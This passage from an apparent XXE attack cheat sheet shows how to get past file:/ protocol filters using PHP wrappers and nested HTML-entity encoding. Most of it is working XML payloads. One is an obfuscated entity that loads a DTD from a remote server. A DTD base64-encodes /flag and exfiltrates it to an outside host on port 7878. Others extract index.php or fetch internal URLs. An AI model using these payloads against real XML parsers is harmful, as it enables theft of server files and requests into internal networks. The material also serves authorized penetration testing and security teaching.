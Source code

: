 ### File:/ Protocol Bypass

If the web is using PHP, instead of using `file:/` you can use **php wrappers**`php://filter/convert.base64-encode/resource=` to **access internal files**.

If the web is using Java you may check the [**jar: protocol**](xxe-xee-xml-external-entity.md#jar-protocol).

### HTML Entities

Trick from [**https://github.com/Ambrotd/XXE-Notes**](https://github.com/Ambrotd/XXE-Notes)\
You can create an **entity inside an entity** encoding it with **html entities** and then call it to **load a dtd**.\
Note that the **HTML Entities** used needs to be **numeric** (like \[in this example]\([https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity%28true,'Numeric entities'%29\&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B)\\](<https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity%28true,%27Numeric%20entities%27%29&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B)%5C>)).

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x25;&#x64;&#x74;&#x64;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x3E;" >%a;%dtd;]>
<data>
    <env>&exfil;</env>
</data>
```

DTD example:

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://172.17.0.1:7878/bypass.xml?%data;'>">
%abt;
%exfil;
```

## PHP Wrappers

### Base64

**Extract** _**index.php**_

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```

#### **Extract external resource**

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3"> ]>
```
